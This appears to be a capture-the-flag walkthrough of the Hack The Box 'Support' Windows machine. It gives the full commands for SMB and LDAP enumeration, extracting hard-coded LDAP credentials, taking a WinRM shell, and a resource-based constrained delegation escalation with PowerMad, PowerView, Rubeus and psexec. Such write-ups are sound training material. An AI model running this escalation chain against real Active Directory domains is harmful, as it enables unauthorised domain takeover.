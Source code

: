 ## HTB: Support Walkthrough

### Box Info
- **Name**: Support
- **Release Date**: 30 Jul 2022
- **Retire Date**: 17 Dec 2022
- **OS**: Windows
- **Difficulty**: Easy (OSCP-like, OSEP-like)
- **Points**: 20

---

### Recon

#### Nmap Full TCP Scan
```
nmap -p- --min-rate 10000 10.10.11.174
```
Key Ports:
- 53 (DNS)
- 88 (Kerberos)
- 389 (LDAP)
- 445 (SMB)
- 5985 (WinRM)

#### Named Contexts from LDAP
```
ldapsearch -h support.htb -x -s base namingcontexts
```
Main context:
```
DC=support,DC=htb
```

#### Hosts File Entries
```
10.10.11.174 dc.support.htb support.htb
```

---

### SMB Enumeration

#### List Shares
```
smbclient -N -L //support.htb
```
Interesting share:
```
support-tools
```

#### Access support-tools
```
smbclient -N //support.htb/support-tools
```
Found:
```
UserInfo.exe.zip
```

---

### Reverse Engineering UserInfo.exe

1. Extracted `UserInfo.exe.zip`
2. Ran `.\UserInfo.exe find -first '*'` to enumerate users
3. Located LDAP bind credentials in C# source via DNSpy:
   - **Username**: `support\ldap`
   - **Password (after decoding)**: `nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz`

---

### LDAP Search with Credentials
```
ldapsearch -h support.htb -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb"
```

Found account:
```
support
info: Ironside47pleasure40Watchful
```

### Evil-WinRM Shell as support
```
evil-winrm -i support.htb -u support -p 'Ironside47pleasure40Watchful'
```
Got user flag:
```
C:\Users\support\Desktop> type user.txt
```

---

### BloodHound Analysis
- **Group**: Shared Support Accounts
- **Privilege**: GenericAll on `DC.SUPPORT.HTB`

---

### RBCD Attack (Resource-Based Constrained Delegation)

#### Upload tools:
- PowerView.ps1
- PowerMad.ps1
- Rubeus.exe

#### Add Fake Computer
```
New-MachineAccount -MachineAccount 0xdfFakeComputer -Password $(ConvertTo-SecureString '0xdf0xdf123' -AsPlainText -Force)
```

#### Set RBCD ACL
```
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;${fakesid})"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Set-DomainObject -Identity "DC" -Set @{"msds-allowedtoactonbehalfofotheridentity"=$SDBytes}
```

#### Get Hash and Impersonate
```
Rubeus.exe hash /password:0xdf0xdf123 /user:0xdfFakeComputer /domain:support.htb
Rubeus.exe s4u /user:0xdfFakeComputer$ /rc4:<RC4_HASH> /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /ptt
```

---

### Remote Shell as Administrator

#### Export ticket and convert:
```
base64 -d ticket.kirbi.b64 > ticket.kirbi
ticketConverter.py ticket.kirbi ticket.ccache
```

#### Use psexec:
```
KRB5CCNAME=ticket.ccache psexec.py support.htb/administrator@dc.support.htb -k -no-pass
```

Got root flag:
```
C:\Users\Administrator\Desktop> type root.txt
```

---

### Beyond Root: Windows vs Linux Auth

- On Linux, captured cleartext LDAP credentials via Wireshark
- On Windows, NTLMSSP is used and credentials are not in plaintext
- Wireshark shows `simple` vs `sasl` difference in `bindRequest`

---

### Summary
- **Initial Foothold**: Reversed a .NET EXE to extract LDAP creds
- **User Access**: Found support user password in LDAP info field
- **Privilege Escalation**: Performed RBCD by adding a fake computer and impersonating Administrator via S4U2self/S4U2proxy